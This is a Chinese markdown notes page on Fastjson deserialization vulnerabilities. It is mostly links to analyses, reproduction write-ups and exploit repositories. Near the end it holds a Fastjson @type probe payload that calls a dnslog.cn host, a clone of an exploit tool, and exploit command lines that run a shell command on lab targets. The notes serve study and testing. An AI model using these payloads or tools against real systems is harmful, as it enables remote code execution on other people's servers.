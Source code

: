 # Fastjson

<!-- 
sec\udesk.sec.java.md
fastjson.20200325.md
-->


## fastjson

[Fastjson历史漏洞研究（一）](https://www.anquanke.com/post/id/215753)

[FastJson历史漏洞研究（二）](https://www.anquanke.com/post/id/218268)

[Fastjson 反序列化漏洞史](https://paper.seebug.org/1192/)

利用 fastjson $ref 构造 poc
https://paper.seebug.org/1613/

[Fastjson小于1.2.68版本反序列化漏洞分析](https://www.freebuf.com/vuls/252029.html)

[fastjson在一些特殊场景下的漏洞挖掘与利用](https://www.anquanke.com/post/id/222946)


FastJson_1.2.24 反序列化漏洞复现+解析
https://www.anquanke.com/post/id/239867
那些FastJson漏洞不为人知的事情（开发角度）
https://www.freebuf.com/articles/web/258827.html

FastJson<=1.2.24RCE双链详细分析
https://www.anquanke.com/post/id/223467

这些FastJson漏洞已经人尽皆知的事情（安全角度）
https://www.freebuf.com/articles/web/258948.html

Fastjson1.2.24反序列化学习
https://www.anquanke.com/post/id/235479

Fastjson-RCE漏洞复现
https://www.anquanke.com/post/id/242330

 [Fastjson<=1.2.48远程代码执行漏洞分析](https://yaofeifly.github.io/2019/07/28/fastjson/)
  
  [fastjson 1.2.61远程代码执行漏洞分析&复现](https://curz0n.github.io/2019/09/24/fastjson_1_2_61_blacklist_bypass/)

  浅析Fastjson1.2.62-1.2.68反序列化漏洞
  https://www.anquanke.com/post/id/232774

  [红队武器库:fastjson小于1.2.68全漏洞RCE利用exp](https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/)

  fastjson remote code execute poc 直接用intellij IDEA打开即可 首先编译得到Test.class，然后运行Poc.java
  https://gitee.com/huayu696/fastjson-poc

  [fastjson在一些特殊场景下的漏洞挖掘与利用](https://www.anquanke.com/post/id/222946)

  [Fastjson反序列化漏洞分析 第二弹](https://tiaotiaolong.net/2020/06/18/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90-%E7%AC%AC%E4%BA%8C%E5%BC%B9/)

[Fastjson < 1.2.68版本反序列化漏洞分析篇](https://www.anquanke.com/post/id/219731)

[Fastjson68版本绕过autotype原理及利用场景分析](https://www.freebuf.com/vuls/240392.html)

[Fastjson <1.2.48 入门调试](https://www.anquanke.com/post/id/209915)

[Fastjson 1.2.24反序列化漏洞深度分析](https://www.anquanke.com/post/id/211035)

[Fastjson1.2.24漏洞复现详细过程](https://www.freebuf.com/articles/web/242712.html)

[不安全的序列化](https://www.freebuf.com/articles/web/244476.html)

[Fastjson批量检查及一键利用工具](https://www.freebuf.com/sectool/244113.html)

[fastjson<=1.2.62远程代码执行漏洞通告](https://www.anquanke.com/post/id/199527)

访问地址: 118.193.36.37:43170

{ "zeo": {"@type":"java.net.Inet4Address","val":"m9ng8n.dnslog.cn"]]

https://github.com/mrknow001/fastjson_rec_exploit

git clone git@github.com:mrknow001/fastjson_rec_exploit.git

118.89.54.172

python3 fastjson.py -u http://192.168.1.3/ -s 192.168.1.1 -c "touch /tmp/test.txt

python fastjson_rce_exploit.py -u http://192.168.56.107:8090/ -s 192.168.56.1 -c "touch /tmp/test.txt"

https://github.com/mrknow001/fastjson_rec_exploit/archive/master.zip

[vulhub](https://vulhub.org/)
